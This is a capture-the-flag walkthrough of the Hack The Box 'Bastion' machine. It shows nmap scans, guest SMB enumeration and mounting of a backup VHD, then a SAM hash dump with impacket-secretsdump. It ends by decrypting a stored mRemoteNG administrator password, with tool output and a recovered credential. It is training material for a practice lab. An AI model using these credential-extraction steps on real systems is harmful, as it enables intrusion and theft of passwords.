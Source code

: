 ```yaml
---
layout: post
title: HTB Bastion Walktrhoug
categories: [HTB, OSCP]
---
```


Lets dig into really nice easy box from HTB. Enumeration was key and really interesting technique to acquire both passwords.

![](/images/bastion-htb/logo.png)

First we did some recon with nmap first

```bash
nmap  -sC -sV -oA nmap/initial 10.10.10.134
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-31 01:04 EST
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m57s, deviation: 34m36s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-01-31T07:04:55+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-31T06:04:53
|_  start_date: 2021-01-30T14:27:36

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.90 seconds
```

We have few ports open 
* SSH which is unusual for windows box
* 135,445 SMB port
* 139 is RPC

I start looking for SMB share if any is available with smbclient

```bash
smbclient -L //10.10.10.134 -N
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

I can see there is Backups which is not default. I fire up smbmap to double check permissions on this share.

```bash
smbmap -H 10.10.10.134 -u " " -p " "                
[+] Guest session       IP: 10.10.10.134:445    Name: 10.10.10.134                                      
[|] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\CRGLQMBUJS, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
                                                                                            
```

I had Read and Write permissions. After some time of digging i found vhd file which i know is probably some file system maybe backup of this machine. I look for some manual how to mount/access this vdh in kali. I end up on this article which was exactly what i was looking for [link](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

Basically i needed to install some tool to access shares.

```bash
sudo apt install cifs-utils 
sudo apt install libguestfs-tools
```

Them I create to folders /mnt/media and /mnt/vdh. I mount Backup share to media dn vdh file to vdh folder

```bah
sudo mount -t cifs //10.10.10.134/Backups /mnt/media 
sudo guestmount --add /mnt/media/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vdh
```

I start looking for file. Find username of this machine. Because I had access to all files and none of them was protected I can access SAM file which contains passwords.

I use this command from impacket tools
```bash
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

I was clear text for auto login password. As i know username from users folder I tried to get access via SSH and I was in. Tried to use winpeas.exe but i was getting access denied on different folders. I start looking for common files and i noticed mRemoteNg. Start googling and there is an easy password access on Windows box. I look for linux option and find this python [script](https://github.com/haseebT/mRemoteNG-Decrypt). I downloaded config.xml file from victim machine to my kali box. Run script against this file but there was some error issue. Script also have option for pass password value from xml file. That give me password for administrator

```bash
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0E**
```

I also spin my win box and tried to get admin password.
I copy xml file and downloaded mremote portable version from their websites/
I lunch application and choose *Open Connection File...*

![](/images/bastion-htb/mremote-open.png)

mRemoteNg have ability to work with external tools. I clicked on Tools -> External Tools and add this cmd command.

![](/images/bastion-htb/mremote-cmd.png)

Them just right click on DC connection and external tools -> cmd will give me pop up with current password

![](/images/bastion-htb/mremote-admin.png)


___
Lesson learned..... 

I forgot to run nmap scan on all ports
```bash
nmap -p - -oA nmap/allports 10.10.10.134 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-31 01:05 EST
Stats: 0:07:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 76.54% done; ETC: 01:15 (0:02:12 remaining)
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 605.68 seconds
```

Tried evil-winrm as L4mpje but access was denied due to authorization. *Always have some recon on background!* and happy learning :)






